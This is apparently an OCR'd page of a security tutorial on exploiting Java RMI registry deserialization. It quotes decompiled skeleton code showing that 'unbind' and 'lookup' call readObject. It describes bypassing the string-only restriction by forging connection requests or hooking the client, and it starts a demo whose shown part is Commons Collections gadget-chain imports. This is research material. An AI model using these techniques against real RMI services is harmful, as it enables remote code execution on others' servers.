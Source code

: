 ```java
}
```

![Demo1 result](./images/46.png)

### unbind & lookup
`unbind` will call `readObject` to read the passed parameters, so it can be used.
```java
case 4:
    try {
var10 = var2.getInputStream();
        var7 = (String)var10.readObject();
    } catch (IOException var81) {
        throw new UnmarshalException("error unmarshalling arguments", var81);
    } catch (ClassNotFoundException var82) {
        throw new UnmarshalException("error unmarshalling arguments", var82);
    } finally {
        var2.releaseInputStream();
    }

    var6.unbind(var7);
```

`lookup` will also call `readObject` to read the passed parameters, so it can also be used.
```java
case 2:
    try {
        var10 = var2.getInputStream();
        var7 = (String)var10.readObject();
    } catch (IOException var89) {
        throw new UnmarshalException("error unmarshalling arguments", var89);
    } catch (ClassNotFoundException var90) {
        throw new UnmarshalException("error unmarshalling arguments", var90);
    } finally {
        var2.releaseInputStream();
    }

    var8 = var6.lookup(var7);
```

`Demo` code. When `unbind` or `lookup` is called, only strings are allowed to be passed, so malicious objects cannot be passed. There are several ways to solve this problem:
 - Forged connection request
 - `rasp hook` request code, modify send data

```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
import java.io.ObjectOutput;
```